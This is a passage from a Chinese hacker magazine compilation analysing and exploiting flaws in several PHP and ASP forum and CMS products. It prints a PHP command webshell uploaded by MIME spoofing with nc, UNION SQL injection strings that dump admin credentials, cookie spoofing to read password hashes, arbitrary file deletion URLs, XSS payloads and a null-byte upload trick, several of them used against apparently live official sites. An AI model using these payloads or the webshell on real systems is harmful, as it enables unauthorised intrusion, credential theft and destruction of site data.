$close= $_POST["R1"];
$share= $_POST["R2"];
$backimg= $_POST["backimg"];
$domain1= $_POST["domain"];
$domain1=str_replace(" ","",$domain1);
if ($province=="选择省份 选择城市") {
echo "<script>alert('提示：所在地没有选择，请正确选择！！');history.go(-1);</script>";
exit;
}
...
mysql_query($query);
$setmes="我更改了签名：$detail";
$query1 = "INSERT INTO ".$DBprefix."share (user_id,user_name,user_pic,content_body,share_time) VALUES ('$user_id','$user_name','$user_pic','$setmes','$addtime')";
mysql_query($query1);
}
```

所有的信息都是直接 POST 而来，未经任何过滤就直接 update 了，除了个性网址在后面进行了一下正则的过滤。在我的签名处写 `<script>alert(/签名跨站/)</script>`，效果如图5，我们修改了签名，网站会在首页显示 XXX 修改了签名，这样我们的跨站代码又到首页去了。

图5 跨站成功

还有很多地方可以跨站的，比如设置我状态的文件 state.php：

```php
$read= $_POST["read"];
$listen= $_POST["listen"];
$enjoy= $_POST["enjoy"];
$query = "UPDATE ".$DBprefix."users SET state_read='$read',state_listen='$listen',state_enjoy='$enjoy' WHERE user_id='$user_id'";
mysql_query($query);
```

啥都没过滤。跨站就不多说了，因为下面出场的是这个程序的超重量级漏洞哦。

# 三、致命的上传漏洞

我学 PHP 以来，第一次碰到上传漏洞，难免有些兴奋，研究了一下，再一实践，还真的成功了。下面先看漏洞原因，等会给大家演示实战官方网站，漏洞代码如下：

```php
$f=$_FILES['picture'];
```

```php
if ($f['name']) {
    if ($_FILES['picture']['type']!="image/pjpeg" && $_FILES['picture']['type']!="image/gif" && $_FILES['picture']['type']!="image/x-png") {
        echo "<script>alert('提示：你上传的头像图片类型不正确，系统仅支持 jpg,gif,png 格式的图片，点击确认返回！');window.location.href='$prev';</script>";
        exit;
    }
    $dest_dir='attachments/head';
    $dest=$dest_dir.'/'.date("ymd_hms")."_".$f['name'];
    $dest2=$dest_dir.'/'.date("ymd_hms")."_thumb_.jpg";
    $r=move_uploaded_file($f['tmp_name'],$dest);
    chmod($dest, 0755);
    $picture=$dest;
    $picture1=$dest2;
    $picture2=$webaddr."/".$dest2;
    $resizeimage = new resizeimage("$picture", "98", "98", "1", "$picture1");
}
```

代码功能就是获取用户上传文件的 MIME 类型，如果检测到不是 image/gif、image/x-png 或 image/pjpeg 就提示不能上传，这里程序员没有考虑到后缀的问题，而且 MIME 类型我们可以利用抓包搞到并修改，然后 NC 提交基本就 OK 了，原理清楚了我们就来实战官方。

# 四、实战官方上传

先注册个用户 sniperhg，打开 WinSock Expert 监听页面，这里我上传的是 php 格式可以执行命令的小马。直接选择 PHP 文件上传，当然，这里是不会成功的。抓到的数据包如下：


http://www.9italk.com/attachments/head/080527_010531_thumb_.jpg

```http
POST /settings.php HTTP/1.1
Accept: image/gif, image/x-xbitmap, image/jpeg, image/pjpeg, application/x-shockwave-flash, application/x-silverlight, */*
Referer: http://www.9italk.com/settings
Accept-Language: zh-cn
Content-Type: multipart/form-data; boundary=---------------------------7d8128218051e
UA-CPU: x86
Accept-Encoding: gzip, deflate
User-Agent: Mozilla/4.0 (compatible; MSIE 7.0; Windows NT 5.1; WPS; Mozilla/4.0 (Compatible EmbeddedWB-14,59 from: http://bsalsa.com/ ; .NET CLR 2.0.50727)
Host: www.9italk.com
Content-Length: 1472
Connection: Keep-Alive
Cache-Control: no-cache
Cookie: rememberCookieUname=sniperhg; rememberCookiePassword=14e1b600b1fd579f47433b88e8d85291

-----------------------------7d8128218051e
Content-Disposition: form-data; name="picture"; filename="F:\入侵渗透\入侵渗透\shell\1.php"
Content-Type: text/plain

<?php
echo "<pre>";
$cmd=$_GET['cmd'];
$cmd=StripSlashes($cmd);
echo ''.$cmd.'';
system("$cmd");
echo "</pre>";
?>

-----------------------------7d8128218051e
Content-Disposition: form-data; name="syshead"
-----------------------------7d8128218051e
Content-Disposition: form-data; name="gender"

保密
-----------------------------7d8128218051e
Content-Disposition: form-data; name="sf"

江苏省
-----------------------------7d8128218051e
Content-Disposition: form-data; name="city"

南京
-----------------------------7d8128218051e
```图6 小马上传成功

图7 得到 webshell

```text
Content-Disposition: form-data; name="website"
-----------------------------7d8128218051e
Content-Disposition: form-data; name="detail"
<test>
-----------------------------7d8128218051e
Content-Disposition: form-data; name="backimg"
-----------------------------7d8128218051e
```

```text
Content-Disposition: form-data; name="domain"
-----------------------------7d8128218051e
Content-Disposition: form-data; name="R2"
1
-----------------------------7d8128218051e
Content-Disposition: form-data; name="R1"
0
-----------------------------7d8128218051e
Content-Disposition: form-data; name="actions"
settings.base
-----------------------------7d8128218051e
Content-Disposition: form-data; name="Submit"
保存
-----------------------------7d8128218051e--
```

我们将其保存为 2.txt，看到 Content-Type: text/plain 这一行没？我们要把它的 MIME 类型改为图片的类型，也就是 image/gif、image/x-png 或 image/pjpeg 其中一个。这里我修改为 image/pjpeg，祭出宝刀 NC，输入命令：nc -vv www.9italk.com 80 < 2.txt。到主页看看自己的头像，缩略图为 080528_020556_thumb_.jpg，我们的 PHP 文件就是 080528_020556_1.php。可能是权限不够的问题，我们上传的马儿不能执行命令，但是我们可以直接传个 PHPSPY 就行了，这里只是演示，实际上我已经有了官方的 shell 了，如图 6 和图 7。这个上传漏洞，真的很好很强大。

文章写得有点乱，希望各位读者朋友海涵。我继续看其他程序去咯！

编辑点评：

漏洞多多，一抓一大把，大家再去抓抓看吧。黑客手册

sniperhg [O.S.T]

从本文可以学到：

FTBBS 漏洞分析和利用

很久没写稿了，因为天天把很多时间花在了 WOW 上，最近觉得游戏也没什么意思了，有空还是看点程序写点稿吧。

言归正传，还是看看今天的文章吧。几个月前我写了个关于 FTBBS PHP 的一些注入漏洞，今天我又下载了最新的 5.3 版，发现程序员根本不知道安全二字如何写的，漏洞依然一抓一大把。

# 一、无处不在的注入

作为程序员，FTBBS 的安全意识还是有那么一点点的，看两个函数：

```php
Function ftbbs_request($var_name){
if (get_magic_quotes_gpc()==0){ //系统不支持自动转换
Return (addslashes($var_name)); //进行转换
}
else{
Return ($var_name);
}
}
```

这个函数的意思是：如果服务器设置 magic_quotes_gpc()=OFF 的话，就用 addslashes() 函数将接收的数据转换，比如单引号就变成了“\'”，多了个斜杠，这样字符型的注入基本就没戏了。

```php
/**************************
判断传递的$_GET变量中是否含有非法字符
功能：防注入
**************************/
$ArrChar=array("'",";","union","and","insert","delete","drop","char",
"select","from","update");
$GoUrl="";
function FunStringExist($StrFiltrate,$ArrChar){
foreach ($ArrChar as $key=>$value){
if (eregi($value,$StrFiltrate)){
return true;
}
}
return false;
}
if(!function_exists(array_merge)){
$ArrGet=array_merge($HTTP_GET_VARS);
}else{
foreach($HTTP_GET_VARS as $key=>$value){
$ArrGet[]=$value;
}
}
foreach($ArrGet as $key=>$value){
if (FunStringExist($value,$ArrChar)){
echo "<script language=\"javascript\">alert(\"非法字符\");</script>";
if (empty($StrGoUrl)){
echo "<script language=\"javascript\">history.go(-1);</script>";
}else{
echo "<script language=\"javascript\">window.location=\"".$GoUrl."\";</script>";
}
exit;
}
}
```

图 1 and 1=1 页面

图 2 and 1=2 页面

如果 GET 里有我们常用的注入字符，比如：and、select 等，就弹警告框，不过我在很多文件里都没看到这个函数的使用。同一个文件，本地测试存在注入，在官方却有这个提示，难道是他们故意挖洞，让客户花钱填洞？

好，大家先来看个简单的注入点吧，5.3 的 FTBBS 貌似加了 BLOG 进去，所以最容易出问题的就是新模块。跟前些时候那个 PHPCMS 一样，漏洞以前没有，添加了个新模块进去忘记做安全，就让我们钻了空子，BLOG.PHP 文件代码如下：

```php
$userid=$_GET["userid"];
......省略......
$sql="select {$tablepre}ftblog.id,{$tablepre}ftblog.blogtitle,{$tablepre}ftblog.blogtypeid,{$tablepre}ftblog.xinqin,{$tablepre}ftblog_type.blogtype,{$tablepre}ftblog.blogcontent,{$tablepre}ftblog.writedate,{$tablepre}ftblog.blogplnum,{$tablepre}ftblog.hits from {$tablepre}ftblog,{$tablepre}ftblog_type where {$tablepre}ftblog.blogtypeid={$tablepre}ftblog_type.id and {$tablepre}ftblog.sign=0 and {$tablepre}ftblog.blogqs=0 and {$tablepre}ftblog.userid=".$userid." and {$tablepre}ftblog_type.blogphoto=0 order by {$tablepre}ftblog.id desc";
$rs=mysql_query($sql);
$myrow = mysql_fetch_array($rs);
$numrows = mysql_num_rows($rs);
```

代码密密麻麻的，主要看 ftblog.userid=".$userid."，这里没用单引号将变量引起来，所以 magic_quotes_gpc 的值是无所谓的。提交 and 1=1 和 and 1=2，如图 1、图 2。简便的 UNION 法：and 1=2 union select 1,2,3,4,5,6,7 from ft_ftbbs_admin，这里的数据库安装前缀是 ft_，一般站长是不会改的，如图 3。再用 and 1=2 union select 1,admin_user,3,admin_pwd,5,6,7 from ft_ftbbs_admin，其中的 2 和 4 替换成管理员表里的用户和密码字段，如图 4，账号密码就出来了。

同样的漏洞还出现在 HOME.PHP 等很多文件中，这里就不一一指出来了，有兴趣的朋友继续挖掘，一定获益匪浅。

另外，官方网站后加个全角单引号，出来了物理路径，如图 5。

图 3 UNION 查询

图 4 UNION 暴出用户名和密码

图 5 官方暴出物理路径

# 二、偷看任何用户密码

这个漏洞可能比较难发现，但是细心一点就很好利用了（嘿嘿，我在夸我自己），直接看代码：

```php
$userid=get_cookie('clubuser_id');
if ($_POST["newpwd1"]!=""){
$password=ftbbs_request(trim($_POST["newpwd1"]));
$oldpwd=ftbbs_request(trim($_POST["oldpwd"]));
$sql="select clubuser_password from {$tablepre}clubuser where clubuser_password='".md5($oldpwd)."' and clubuser_id=".$userid;
$rs=mysql_query($sql);
$myrow = mysql_fetch_array($rs);
$numrows = mysql_num_rows($rs);
if ($numrows!=0){
$str="update {$tablepre}clubuser set clubuser_password='".md5($password)."' where clubuser_id=".$userid;
    mysql_query($str);
    set_cookie('clubuser_password', base64_encode($password), 3600);
    $msg="<font color=red>密码修改成功!</font>";
    }
    else{
    $msg="<font color=red>你的旧密码不正确,修改不成功!</font>";
    }
    }
    $sql="select clubuser_name,clubuser_password,userimg,homepagetitle,cssfile,bokeer from {$tablepre}clubuser where clubuser_id=".$userid;
    $rs=mysql_query($sql);
    $myrow = mysql_fetch_array($rs);
    $numrows = mysql_query_num_rows($rs);
    if ($numrows!=0){
    $cssfile="blogcss/".$myrow["cssfile"];
    $bokeer=$myrow["bokeer"];
    if ($cssfile=="blogcss/"){
    $cssfile="blogcss/2.css";
    }
    }
    ?>
```

$userid 通过函数 get_cookie() 获取，再看这个函数：

```php
function get_cookie($name){
    global $_COOKIE,$cookieprename;
    if (isset($_COOKIE[$cookieprename.$name])) {
        $value = urldecode($_COOKIE[$cookieprename.$name]);
        if (!get_magic_quotes_gpc()) {
            $value = addslashes(stripslashes($value));
        } else {
            $value = addslashes($value);
        }
        return $value;
    }
    return FALSE;
}
```

这里依然有个 addslashes 函数，其实这些东西都不关我们的事情，它通过读取 COOKIE 来获取 USERID，然后带入 SQL 查询出用户的密码的 MD5 值，写在文本域里，然后我们查看网页源代码就毫不费力地可以看到管理员的密码的 MD5 值。想到 COOKIE，就容易想到 COOKIE 欺骗，如果我们将 clubuser_id 改为管理员的呢？看我操作，这里用明小子的 DOMAIN 带的浏览器，可以改 COOKIE。事先我看了管理员的 ID，是 1，查看 COOKIE，修改 ftbbs_clubuser_id=1，然后点击修改，页面刷新，右键查看源文件，是不是管理员的密码一览无余了？这样我们可以看任意用户的密码了，通过 CMD5 反查出来，就可以直接修改了，如图 6。

图 6 管理员密码的 MD5

# 三、跨站

BLOG 文章添加文件是 blogcenter_add.php，相关代码如下：

```php
if ($_POST["act"]=="y"){
    $codestr=trim($_POST["codestr"]);
    $blogtitle = ftbbs_request(trim($_POST["blogtitle"]));
    $blogqs=trim($_POST["blogqs"]);
    $plqs=trim($_POST["plqs"]);
    $blogtypeid=trim($_POST["blogtypeid"]);
    $xinqin=trim($_POST["DiaryHeart"]);
    $writedate=trim($_POST["writedate"]);
    $remenu=trim($_POST["remenu"]);
    $blogtag=ftbbs_request(trim($_POST["blogtag"]));
    $bbstag=trim($_POST["bbstag"]);
    //++++++++++++++++++++++ 以下是论坛要用的数据
    ...省略一些无关判断...
    $remenu=ubb($remenu);
    $remenu=nojs($remenu);

    $str="insert into {$tablepre}ftblog (blogtitle,blogcontent,blogtypeid,blogqs,writedate,xinqin,userip,blogtag,userid,plqs) values('".$blogtitle."','".$remenu."','".$blogtypeid."','".$blogqs."','".$writedate."','".$xinqin."','".$userip."','".$blogtag."','".$userid."','".$plqs."')";
    mysql_query($str);
    $str="update {$tablepre}ftblog_type set totalnum=totalnum+1 where id=".$blogtypeid." and userid=".$userid;
    mysql_query($str);
}
```

其中 BLOGTITLE 我们可以随意提交，$remenu 经过了处理，其他一些变量其实也可以，只不过要用到外部提交，我就懒得搞了，直接在 $blogtitle 里写跨站代码：`<iframe sRC=http://www.baidu.com></iframe>`，如图 7。

还有一个文件 blogsms_add.php，代码如下：

图 7 跨站

```php
if ($_POST["act"]=="y"){
    $sender=get_cookie('username');
    $accepter=$_POST["postuser"];
    $title = ftbbs_request(trim($_POST["title"]));
    $content=$_POST["content"];
    $content=htmlspecialchars($content);

    $sql="select clubuser_id from {$tablepre}clubuser where clubuser_name='".$postuser."' ";
    $rs=mysql_query($sql);
    $row = mysql_fetch_array($rs);
    $numrows = mysql_query_num_rows($rs);
    if ($numrows==0){
```$title没有用htmlspecialchars()函数过滤，可以利用BLOG里的消息发送，论坛里给对方发送消息是会被过滤的，因为不是用一个文件了，效果如图8。

```php
$str="insert into {$tablepre}sms(title,content,sender,accepter,indate,
IsNew) values('".$title."','".$content."','".$sender."','".$accepter."',
'".$getnow."',1)";
mysql_query($str);
echo "<script language='javascript'>alert('发送成功！');history.go
(-2);</script>";
exit;
}
else{
echo "<script language='javascript'>alert('你所发送的用户名不存在，
请查对！');history.go(-2);</script>";
exit;
}
}
```

图8 消息跨站

# 四、任意文件玩删除

这个BUG很吓人哦，任意文件都可以删除，包括主页哦，看漏洞文件flag_photo.php，代码如下：

```php
$userid=get_cookie('clubuser_id');
$pic=$_GET["pic"];
$flag=$_GET["flag"];
$id=$_GET["id"];
$page=$_GET["page"];
if ($page==""){
$page=1;
}
$photo_name=$_GET["photo_name"];
$sql="delete from {$tablepre}ftbbs_upload where id=".$id;
mysql_query($sql);
$sql="update {$tablepre}ftblog_type set totalnum=totalnum-1 where
blogtype=' ".$photo_name."' and totalnum>0 and userid=".$userid;
mysql_query($sql);
if (file_exists($pic)){
unlink($pic);
}
header("Location:photomanage.php?page=".$page);
?>
```

$pic没经过过滤直接给了unlink()函数，unlink()是用来删除文件的，只要提交的$pic存在，就删除了，可怕吧！我在官网找了个文件测试，如图9是删除前的，我们提交http://php.ftbbs.cn/flag_photo.php?pic=200804/1209351314.jpg看看，如图10，那个图片不见了，被删除了，哈哈。如果提交的是http://php.ftbbs.cn/flag_photo.php?pic=default.php，主页就没了，恐怖吧。一般论坛安装完后会在CACHE生成一个install.lock文件，这个文件存在的话我们就不能通过访问install.php来重新安装，如果我们把install.lock删除的话，嘿嘿，接下来就不用我说了吧。

图9

图10

# 五、总结

FTBBS版本越来越高，漏洞却依然没有减少的趋势，反而却越来越多，看到FTBBS官方对自己系统的评价之一：“4、严密的安全部署和攻击防护体系”，我就笑了。

编辑点评：
没啥原因，“安全”尚未进入他们的开发流程中，以前的Bug都是修修补补，对新开发的模块没有注意安全就可以理解了，究其原因，还是意识不到位，他们迟早会明白，不考虑安全的开发过程不是完整的过程。黑客手册

定价：36元

## 笨鸟先飞——记对野草设计v2.5版整站程序漏洞的全面分析

从本文可以学到：
- 1、野草设计v2.5版整站漏洞分析
- 2、分析中遇到一些问题的思考

### 一.菜鸟自白

看“黑手”有一段时间了，买的杂志都可以装一箱子了，可是技术上就是没多大的长进。看着“黑手”里不断涌现出那么多高手，小菜我真是汗颜啊！无奈之下硬着头皮给我最喜欢的《黑客手册》也写篇文章吧，算是对自己的一次安慰，也算是对“黑手”的报答。希望高手们能够带带小弟，小弟在此感激不尽了。

### 二.事出有因

一日我的QQ好友east king给我发个网站来，他说拿不下后台，叫我看看，朋友嘛！就帮他看了看，不看不知道一看还真吓了一跳，心想："居然还有这样的网站存活在世上，简直......无语N分钟"。一分钟就把webshell发给他了(其实没什么技术，就是用的上传漏洞)，这也勾起了我研究这套系统安全性的兴趣，所以也就有了此文。

就拿v2.5的版本做实验吧，直接在IE里访问，还不错，界面挺清爽的，如图1，不知道安全性怎么样？

图1 主界面

随便浏览了下前台，有个“留言讨论”的板块，可以让会员发表言论，不知道有没有跨站漏洞。呵呵，还不知道能不能利用，先记下了，一会再分析看看。

### 三.跑马观花

我从webshell里下载了这套整站的帮助文档，原来是个叫什么"野草网站管理系统[YCMS]"的整站程序，所以直接就找百度大叔，下了几套源码，回到宿舍就开始了我的漏洞分析之旅。

随手在url后输入admin进入后台登录页面，挺漂亮的。试试万能密码吧，‘or’=’or’ 进不去，输入默认admin / admin888顺利进入后台，如图2。

图2 后台

感觉不错，功能还挺齐全，有数据库备份的功能可是利用不了，如图3。

图3 数据库备份

不能自己定义数据库路径，这是程序作者的聪明之处。后台有上传图片的功能，不知道有没有上传漏洞。到这里网站大致的内容就收于眼底了，总的来看似乎没有下手之处。下面我就结合源码给大家分析下这套系统。

请出AD来狂扫一遍（个人爱好），结果没有发现注入点，现在的程序注入漏洞几乎绝迹了，所以在这里我劝像我一样的小菜们还是放弃工具吧，静下心来多研究研究代码会有用处的。

既然扫不出注入点那就看看别的东西吧，inc目录下找到了conn.asp有容错语句“On Error Resume Next”，爆库就别想了。数据库路径data/#YCMS#.mdb，小菜们肯定想到把“#”全换成“%23”，在浏览器里提交后提示下载。这是个好消息，至少又可以批量搞webshell了（小菜欢呼中）。

### 四.初遇打击

首先想到的是该套程序是不是存在注入漏洞，本来就是菜鸟嘛，所以就到网上搜索了一下（偷下懒），还真让我在华夏找到了一篇关于该套程序的文章，知道了YCMS_Art.asp文件存在注入漏洞，相关代码如下：

```vbscript
If Request.QueryString("bigclass")<>"" then ‘如果不为空就执行下面的语句
sql="select * from [YCMS_Art] where bigclassid="&Request.QueryString("bigclass")&" and ispass=1 order by id DESC" '这里用到了select查询，这是注入的关键地方。
ElseIf Request.QueryString("class")<>"" then '下同
sql="select * from [YCMS_Art] where classid="&Request.QueryString("class") &" and ispass=1 order by id DESC"
Else
sql="select * from [YCMS_Art] where ispass=1 order by id DESC"
End if
set rs=server.createobject("adodb.recordset") '创建 recordset 对象
rs.open sql,conn,1,1 '以只读对象打开
```

这段 ASP 代码 bigclass 参数没有被过滤就直接放到 SQL 语句中，唯一的判断条件是 bigclass 参数不为空。呵呵，赶紧测试在 http://192.168.18.128/YCMS_Art.asp?bigclass=1 后加“'”，返回“对不起！请不要在参数中包含非法字符尝试注入！”

为什么会这样呢？翻看源代码终于发现了 YCMS_Art.asp 在开头调用了 inc 目录下的 YCMS.asp 文件里的 YCMS_Open()函数（有点绕口）。关键代码如下：

```vbscript
Dim Sql_In,Sql_Data
Sql_In=split("'| |and|exec|insert|select|delete|update|count|*|%|chr|mid|master|truncate|char|declare|","|")
If Request.QueryString<>"" then '判断是否为空
for each Sql_Get in Request.QueryString '两层 for 循环将每个 get 提交的参数与 Sql_In 逐个比较
for Sql_Data=0 to ubound(Sql_In)
If instr(LCase(Request.QueryString(Sql_Get)),Sql_In(Sql_Data))>0 then '如果存在的话就执行 YCMS_url()函数返回出错信息。
YCMS_url("Error.asp?action=back&text="&Server.UrlEncode(YCMS_Encode("对不起！请不要在参数中包含非法字符尝试注入！")))
Response.End()
```

晕！原来问题出在这里，对 get 接收的参数进行了过滤，怪不得呢！于是用 DW 查找和替换的功能在“查找范围”选择“整个当前站点”，“搜索”选择“源代码”，“查找”处输入“YCMS_Open()”，如图 4。

这里有必要说明一下：Dreamweaver 在查找漏洞方面功能相当强大。我们发现根目录下除了 error.asp 没有调用 YCMS_Open()函数，所有的文件（admin 目录下的文件就忽略了，因为全都有 session 验证）都调用了 YCMS_Open()函数。还有就是程序的作者很少用 request()，很规矩的 get 参数值用 Request.QueryString()，post 参数值用 request.form()接收，所以想用 cookies 注入也没什么希望了，注入就别想了。这里我想说的是大家不要盲目的相信那些所谓的高手，有没有漏洞自己看源码分析才是正途。对了，顺便说一下与 YCMS_Open()函数同文件的 YCMS_post()函数，它对 post 数据进行了过滤，代码如下（一会会用到）：

```vbscript
Function YCMS_post(postname,poststr,postclass,bigpostlenth,smallpostlenth)
省略 N 行代码……
If postclass=0 then
poststr=trim(replace(poststr,"'","")) '注意！关键的地方到了，这里过滤了单引号啊。
If lcase(poststr)="<p>&nbsp;</p>" or lcase(poststr)="<p></p>" or lcase(poststr)="<br>" then '这里过滤了空标签。
poststr=""
End If
post_sql=split(";|and|exec|insert|select|delete|update|count|*|%|chr|mid|master|truncate|char|declare|'","|") '关键的地方过滤了注入语句，注入是没戏了。
for i=0 to ubound(post_sql)
If instr(LCase(poststr),post_sql(i))<>0 then
YCMS_url("Error.asp?action=back&text="&Server.UrlEncode(YCMS_Encode("["&postname&"] 中含有非法字符！")))
Response.End()
End If
Next
省略……
End Function
```

从以上代码可以看出，过滤了单引号和注入语句。

### 五．绝地逢生

经过上面的分析，注入这条路断了，本来就很菜嘛，如果哪位高手找到这套系统的注入漏洞还请告诉小弟一声，我的 ID 是 gsrc，这里谢谢了。不过还是不能死心，那就来试试跨站。黑盒白盒一起测试，不是前台还有个留言板块吗？注册个用户进入留言讨论板块，在主题处输入：

“<Script>alert("孤水绕城还是小菜菜一个呢")</Script>”。提交之后马上弹出跨站窗口，如图 5。

兴奋 N 分钟，跨站就这样产生了，不过知其然还要知其所以然，这才是学习的王道嘛！我们来分析源码。

好多同学都不知道从哪分析？如何下手？这里我就说一下方法，照顾菜鸟，高手勿笑。打开 WSockExpert，选择工具栏最左边的类似打开文件的图标，依次选择 IE 进程下的页面，如图 6。

这里我就不详细说了，还是不会的话就好好看以前的“黑手”吧。这里我抓包的第一个 send 里第一句就是 “POST /YCMS_BookPost.asp?action=goadd HTTP/1.1”，说明 YCMS_BookPost.asp 对留言的信息进行了接收。

开头就看到了下面这几句代码：

```vbscript
if trim(Request.Form("content"))="" then
  YCMS_url("Error.asp?action=back&text="&server.urlencode("留言内容不能为空!"))
response.end()
end If
set rs=server.createobject("adodb.recordset")
rs.open "select * from [YCMS_book]",conn,1,3
rs.addnew
rs("title")=YCMS_post("标题",Request.Form("title"),0,60,0) '用到了 YCMS_post () 函数进行过滤
rs("color")=Request.Form("color")
rs("content")=Request.Form("content") '留言内容
rs("ip")=request.servervariables("remote_addr")
rs("point")=CInt(Request.Form("point"))
rs("addtime")=now()
rs("lastupdatetime")=now()
省略……
```

居然只有标题用 YCMS_post () 函数 (前面有分析过) 过滤了，而且这个函数也只是过滤了单引号和注入语句，对跨站一点影响也没有，所以就有了如图 5 的效果。通过我的分析，留言内容处填写跨站语句是不行的，因为程序在调用留言内容的时候用了 YCMS_UBB () 函数过滤了跨站语句。不过有一个能用就不错了，呵呵，这套程序也不怎么样嘛。至于如何挂马，盗取 cookies 值什么的我就不说了，以前的“黑手”也有详细的介绍。

### 六. 再接再厉

前面我们找到了跨站漏洞，下面我们进后台继续分析，后台有数据库备份，到底能不能利用呢？想起以前高手们一般是抓包之后再用 nc 提交，不过抓包之后，对 admin 目录下的 YCMS@Data.asp 文件进行分析，发现变量早就给定义好了，我们是不能够自己抓包修改的。这条路走不通！对了，不是还有上传吗？看看上传漏洞有没有，如果有的话那不就简单了吗？直接上传 asp 马，不成功，又试了几个后缀名还是不成功。放弃吗？不！我们上传 jpg 文件抓包看看，代码如下：

```http
POST /admin/up.asp?action=upload HTTP/1.1
Accept: */*
Referer: http://192.168.18.128/admin/up.asp?go=pic
Accept-Language: zh-cn
Content-Type: multipart/form-data; boundary=---------------------------7d7fa3740804
Accept-Encoding: gzip, deflate
User-Agent: Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.1; SV1; Mozilla/4.0 (Compatible Mozilla/4.0 (Compatible-EmbeddedWB 14.58 http://bsalsa.com/ EmbeddedWB- 14.58 from: http://bsalsa.com/; Mozilla/4.0 (Compatible RogueCleanerEmbeddedWB- 14.58 from: http://bsalsa.com/)
Host: 192.168.18.128
Content-Length: 2704
Connection: Keep-Alive
Cache-Control: no-cache
Cookie: iscookies=0; style=null; 999999999=MyDiySkin=1and+1%3D2; YCMSonline=onlineid=192168181; YCMSlogin=userpass=101a51a56a56a102a48a50a102a55a53a48a101a54a53a101a98a98a97a57a53a97a98a57a52a57a51a99a100a97a48a49a101a55a53a48a101a54a53a101a98&username=51a50a49a99a114a115a103&useradmin=49&userid=51; YCMStongji=True; ASPSESSIONIDASSTOBTQ=PONHNLNDJOEMAPONEC LMGKHG; ASPSESSIONIDASQSRATQ=JDANIDODFNMLEKFHAICDOLAF

---------------------------7d7fa3740804
Content-Disposition: form-data; name="filepath"

../Upload/ '上传漏洞关键处，呵呵，看到这个大家就要分析分析了，很有可能有上传漏洞的哦。

---------------------------7d7fa3740804
Content-Disposition: form-data; name="file1"; filename="C:\Documents and Settings\Administrator\桌面\1.jpg"
Content-Type: text/plain
```

是不是特别眼熟啊？经典的上传漏洞，这回可发了。分析后上传漏洞产生的关键代码如下：

- 一. filepath=trim(upload.form("filepath")) (admin/up.Asp 31 行)
- 二. <input type="hidden" name="filepath" value="../Upload/"> (admin/up.Asp 66 行)
- 三. filename=filepath&year(now)&month(now) &day(now) &hour(now)&minute(now)&second(now)&ranNum&"." &FileExt

这里我就把上传过程详细分析一下：

- I. 后台选择一个图片，如图 7，点上传。
- II. 把 name="filepath" value="../Upload/" 发送给上传文件 up.asp。
- III. up.asp 将 filepath 的 value 值 (这里默认的是“../Upload/”，我们可以抓包后伪造数据将其改变) 用 trim () 函数去掉空格后再重新赋值给 filepath。Filepath (相对路径) + 文件名赋值给 filename，然后程序调用 filename 的值保存文件。

这样漏洞就产生了，只要我们在上传漏洞关键处加上 gsrc.asp* (* 代表任意字符，不一定非要空格的哦)，将 Content-Length: 2704 改成 Content-Length: 2713，保存为 1.txt 再用文件编辑工具将 gsrc.asp* 中的“*”号改成十六进制的 00，最后用 nc 提交就把我们的马马给传上去了，如图 8。

通过上面的分析大家应该对上传漏洞的产生有一定的理解了，这也是抓包->改包->nc 提交的通用原理。

顺便读了下 up.asp，发现其中过滤文件后缀名的代码如下：

```vbscript
set file=upload.File(formName)
Dim o,txt,FileExt:FileExt=file.FileExt
txt=Split("asp|aspx|php|jsp|asa|shtml|html|htm|js|vbs","|")
```

没有过滤 cer 和 cdx，这个也就导致了上传漏洞的发生，上传 cer 后缀的木马成功返回地址，真不晓得作者怎么搞的。

### 七. 小小插曲

测试了下发现后台也可以跨站，而且跨站代码也没有进行过滤，这里我只测试了 v2.5，别的版本因为相差的地方挺大的，所以在此就不讨论了，不过也存在低级漏洞，大家有兴趣的话也可以去测试下。

没想到这套程序居然有这么多的漏洞，到网上搜了下发现用这套程序的人还不少。不过在我实战测试的过程中也发现了个问题，就是下载下来的数据库密码竟然都是四十位的，不明所以，菜啊！想问问高手们，可是没人理我，突然想起来上期“黑手”muyan 写的一篇“看小菜分析鹏程网络 v1.8 漏洞”里面有提到过数据库奇怪的 MD5 加密值，并给出了解决办法，不过他只是一个带而过，我看了半天也不明白，我这个密码可是四十位的啊，所以决定靠自己把问题解决了。开始我也没有思路，只是随便看看源码，看了半天也没思路，没办法只能来狠的了。随便找了个整站看了看，数据库加密是 32 位的 MD5，把 MD5.asp 拿出来和“野草”的 MD5.asp 比较，这一看还真看出点东西来，找到如下不同点：

32 位加密：
MD5 = LCase(WordToHex(a) & WordToHex(b) & WordToHex(c) & WordToHex(d))

野草 40 位加密：
MD5=LCase(WordToHex(c)&WordToHex(a)&WordToHex(b)&WordToHex(c)&WordToHex(d))

MD5 的加密算法小菜可没法看懂，不过大家仔细看看两者的差别，野草的 md5 最前面多了个 WordToHex(c)，加密之后是 40 位，他用 4 个 & 连接了 5 个变量，而 32 位的则是 3 个 & 连接 4 个变量，终于找到规律，就是每个变量占 8 位 (40/5=32/4=8)，所以我们只要把前边多出来的 8 位减去就成了 32 位加密的一样了。呵呵，通过工具转换之后完全正确，对比如下：

- 32位“admin888”加密后：7FEF6171469E80D32C0559F88B377245
- 40位“admin888”加密后：2C0559F87FEF6171469E80D32C0559F88B377245

呵呵，这次终于把问题给解决了，好高兴啊，到网上测试也完全正确，并且发现 32 位加密的时候只有 WordToHex() 里 a, b, c, d 顺排出来的密码才是正确的，打乱顺序就不对了。这里我想到，如果把里面的 a, b, c, d, e 值乱排序的话，用这样的 md5.asp 加密，那样别人就是得到了你的 MD5 值，得到 md5.asp 文件也没办法破解你的密码，是不够阴啊。

到这里网站分析的差不多了，通过对这套系统的分析我也收获了不少，在这里谢谢作者提供这么好的程序供我们小菜分析 (呵呵，没有恶意啊)。不过 YCMS20SP4 这个最终版的程序安全性还是不错的，其他版本的不推荐大家使用。

## 八. 写在最后

第一次写文章，感觉收获颇多，其实文章能不能发表并不重要，重要的是安全界和我一样的菜鸟们能够静下心来多研究研究些技术，能够总结点属于自己的东西。不要再苦思冥想怎么盗号玩木马了，最后给喜欢脚本的同学推荐本好书《精通脚本黑客》，这本书好像老早就有了，可是过年的时候才在书城淘到，相见恨晚啊！！！在里面学到了好多的东西，菜鸟必备哦，小菜们不要吝惜几十块钱哈，知识是无价的哦。

> **编辑点评：**
> 这篇文章的作者在文章后面附了几句心里话让我很有感触，回想自己第一次写稿的紧张，发稿时的激动，久违的一种感觉。
> 说说本文，写的挺好的，虽然都是以前的漏洞，但是能在一个系统中完整的分析出这些漏洞，足以说明自己的分析能力；另外，最重要的一点是，分析漏洞可以让自己脱离“挂马”、“盗QQ”之列，使得自己可以更加专心和专注。

# 赛特文章管理系统通杀 0day

Hack_Ht

